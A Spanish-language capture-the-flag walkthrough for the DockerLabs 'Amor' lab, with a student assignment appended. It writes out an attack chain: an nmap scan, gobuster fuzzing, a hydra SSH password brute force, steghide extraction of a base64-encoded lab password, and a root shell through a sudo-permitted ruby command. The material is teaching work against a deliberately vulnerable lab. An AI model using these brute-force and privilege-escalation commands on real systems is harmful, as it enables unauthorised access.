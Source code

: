 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

**Prerequisito tener instalado docker**

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)

Una vez descargada deberemos copiar el contenido hacia kali.

![](scp1.jpg)

```bash
jaider@TTG MINGW64 /g/HACKING
$ scp -r amor kali@192.168.1.12:/home/kali/Documents/
```
Ya en Kali y en caso de no tener instlado Docker proceder a su instalación: 

```bash
sudo apt install docker.io
```

## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

**Descomprimir el recurso:**

En nuestro caso se trata de la carpeta que se traslado por SCP desde ya descomprimida, en caso de que se descargue directamente en Kali proceder a descomprirla. 

```bash
unzip nombre_maquina.zip
```

Esto generará una  carpeta  con archivos: un script que es el autodespliegue de la máquina «auto_deploy.sh» y el archivo de la máquina en.tar «ejemplo.tar».

Y por último para desplegar la máquina, basta con ejecutar el script:


```bash
└─# ./auto_deploy.sh amor.tar 
```

![](Despliegue.jpg)


## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

![](ipadd.jpg)

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

![](netdiscover.jpg)


Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

![](nmap.jpg)

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](gobuster.jpg)

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

![](hydra.jpg)

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![](scp.jpg)


La imagen descargada es la siguiente:

![](foto.jpg)

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

![](sudo.jpg)

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```
![](root.jpg)

# Taller Individual.

**Instrucciones:**

- Para esta actividad individual, deberán realizar el trabajo dentro de la subcarpeta ENTREGAS que se encuentra en la sesión actual.

- La entrega final deberá cargarse en un nuevo directorio dentro de la carpeta **ENTREGAS**, el cual tendrá el formato ApellidoNombre (ejemplo: PerezJuan). Este directorio deberá ser creado por cada estudiante en el repositorio de GitHub asignado, para lo cual se les otorgarán los permisos de colaboradores necesarios.

**Métrica Clave: Profundidad y Calidad de las Respuestas**

La evaluación de esta actividad se centrará en la profundidad y calidad de sus respuestas. Esto implica lo siguiente:

- Definición y Explicación Detallada: Para cada comando y herramienta empleada, deben proporcionar una definición clara y una explicación exhaustiva de su propósito y funcionamiento.

Ejemplos Prácticos: Incluyan ejemplos concretos y funcionales que ilustren el uso de cada comando o herramienta.

- Variantes y Banderas (Flags): Describan las principales variantes y las banderas (opciones o argumentos) más relevantes de cada comando, explicando su función y cómo modifican el comportamiento del comando.

**Casos de Uso Reales:** Mencionar escenarios o casos de uso comunes donde estas herramientas y comandos son particularmente útiles.

**Asegúrense de que su documentación sea clara, organizada y fácil de entender.**

**NOTA: Incluir imágenes y fuentes en su documentación.**


**Puntos a desarrollar**

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleaas, este punto amplia el ejercicio anterior.
   
4. Realice un diagrama de flujo de todo el procedimiento realizado.

